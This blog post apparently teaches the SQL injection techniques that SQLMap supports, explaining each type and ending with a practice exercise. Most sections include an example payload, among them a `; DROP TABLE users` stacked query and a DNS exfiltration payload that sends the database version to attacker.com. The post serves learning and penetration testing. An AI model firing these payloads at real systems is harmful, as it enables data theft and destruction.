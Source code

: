 ```yaml
---
title: "SQL Injection Types Supported by SQLMap - SQL Map 01"
seoTitle: "SQLMap Guide: Types of SQL Injections Supported"
seoDescription: "Explore the various SQL injection types supported by SQLMap, including Boolean-based, Error-based, and more, with this comprehensive guide"
datePublished: Wed Apr 24 2024 22:32:38 GMT+0000 (Coordinated Universal Time)
cuid: clvee4p05000308lb3ezwe1ne
slug: sql-injection-types-supported-by-sqlmap-sql-map-01
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1713997931561/7c7be6d0-c5b9-4ce1-8617-f26a92818d1c.png
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1713997935094/a175b61a-1b7c-4ad0-aa7d-9f233874f43b.png
tags: hacking, pentesting, sqlinjection, sqlmap

---
```


## Objective:

To provide a detailed, step-by-step guide on the various SQL injection types supported by SQLMap, enabling learners to understand and identify each type effectively.

## Introduction to SQLMap

* SQLMap is a powerful penetration testing tool for detecting and exploiting SQL injection vulnerabilities.
    
* It supports a wide range of SQL injection techniques, making it a comprehensive tool for testing web application security.
    

## Listing Supported SQL Injection Types

1. Use the command `sqlmap -hh` to view the list of supported SQL injection techniques.
    
2. The `-technique` option allows you to specify the SQL injection techniques to use.
    
3. The default value for `-technique` is "BEUSTQ", which represents the following techniques:
    
    * B: Boolean-based blind
        
    * E: Error-based
        
    * U: Union query-based
        
    * S: Stacked queries
        
    * T: Time-based blind
        
    * Q: Inline queries
        

## Boolean-based Blind SQL Injection

1. Example payload: `AND 1=1`
    
2. SQLMap exploits this vulnerability by differentiating between TRUE and FALSE query results.
    
3. It retrieves 1 byte of information per request by comparing server responses.
    
4. TRUE results have minimal or no difference from the regular server response.
    
5. FALSE results have substantial differences from the regular server response.
    
6. Boolean-based blind SQL injection is considered the most common type in web applications.
    

## Error-based SQL Injection

1. Example payload: `AND GTID_SUBSET(@@version,0)`
    
2. This technique relies on the DBMS returning error messages as part of the server response.
    
3. SQLMap uses specialized payloads targeting functions that cause known misbehaviors in specific DBMSes.
    
4. It supports error-based SQL injection for various DBMSes, including MySQL, PostgreSQL, Oracle, and more.
    
5. Error-based SQLi is faster than most other types, as it can retrieve data in chunks (e.g., 200 bytes) per request.
    

## UNION Query-based SQL Injection

1. Example payload: `UNION ALL SELECT 1,@@version,3`
    
2. This technique extends the original vulnerable query with the results of injected statements using UNION.
    
3. If the original query results are rendered in the response, the attacker can retrieve additional data from the injected statements.
    
4. UNION query-based SQLi is considered the fastest type, as it can potentially retrieve an entire database table with a single request.
    

## Stacked Queries SQL Injection

1. Example payload: `; DROP TABLE users`
    
2. Also known as "piggy-backing," this technique injects additional SQL statements after the vulnerable one.
    
3. It is useful for running non-query statements like INSERT, UPDATE, or DELETE.
    
4. The vulnerable platform must support stacking queries (e.g., Microsoft SQL Server and PostgreSQL).
    
5. SQLMap can use stacked queries for advanced features like executing OS commands and retrieving data.
    

## Time-based Blind SQL Injection

1. Example payload: `AND 1=IF(2>1,SLEEP(5),0)`
    
2. Similar to boolean-based blind SQLi, this technique uses response time to differentiate between TRUE and FALSE.
    
3. TRUE responses have a noticeable difference in response time compared to regular server responses.
    
4. FALSE responses have response times indistinguishable from regular responses.
    
5. Time-based blind SQLi is slower than boolean-based blind SQLi but is used when the latter is not applicable (e.g., non-query statements).
    

## Inline Queries SQL Injection

1. Example payload: `SELECT (SELECT @@version) from`
    
2. This technique embeds a query within the original query.
    
3. It is uncommon and requires the vulnerable web application to be written in a specific way.
    
4. SQLMap supports this type of SQL injection.
    

## Out-of-band SQL Injection

1. Example payload: `LOAD_FILE(CONCAT('\\\\\\\\',@@version,'.`[`attacker.com`](http://attacker.com)`\\\\README.txt'))`
    
2. This advanced technique is used when other types are unsupported or too slow.
    
3. SQLMap supports out-of-band SQLi through "DNS exfiltration."
    
4. It forces the server to request non-existent subdomains containing the SQL response.
    
5. SQLMap collects these erroring DNS requests to form the entire SQL response.
    

## Checkpoint Exercise

1. Set up a vulnerable web application with SQL injection vulnerabilities.
    
2. Use SQLMap to identify the supported SQL injection types for the application.
    
3. Attempt to exploit the application using each supported SQL injection type.
    
4. Analyze the results and understand the differences between each technique.